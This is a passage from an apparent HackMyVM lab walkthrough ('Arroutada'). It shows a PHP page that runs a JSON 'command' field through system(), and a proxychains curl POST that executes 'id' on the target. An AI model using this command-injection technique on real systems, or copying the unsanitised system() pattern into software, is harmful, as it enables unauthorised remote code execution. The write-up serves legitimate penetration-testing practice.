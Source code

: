 The index page of this server seems to contain a text encoded with brainfuck encoding and a warning telling the user to sanitise the /priv.php page. Decoding the brainfuck text doesn't reveal anything interesting.
![](/assets/img/posts/walthrough/hackmyvm/2024-09-14-arroutada/brainfuck-decoded.png){: .center}

Upon accessing the /priv.php page, we see that this page accepts JSON data through POST request and that the value of the **command** key is executed as a system command.
```bash
┌──(pentester㉿kali)-[~/Arroutada/Misc Files]
└─$proxychains curl http://127.0.0.1:8000/priv.php
<SNIP>
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  127.0.0.1:8000  ...  OK
Error: the "command" parameter is not specified in the request body.

/*
$json = file_get_contents('php://input');
$data = json_decode($json, true);

if (isset($data['command'])) {
    system($data['command']);
} else {
    echo 'Error: the "command" parameter is not specified in the request body.';
}
*/
```

We can test this by executing a simple command on the target system.
```bash
┌──(pentester㉿kali)-[~/Arroutada/Misc Files]
└─$proxychains curl http://127.0.0.1:8000/priv.php -X POST -H 'Content-Type: application/json' -d '{"command":"id"}'
<SNIP>
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  127.0.0.1:8000  ...  OK
uid=1001(drito) gid=1001(drito) groups=1001(drito)

<SNIP>
```
*NB: The ID returned to us is the ID of the owning the process as we saw above*
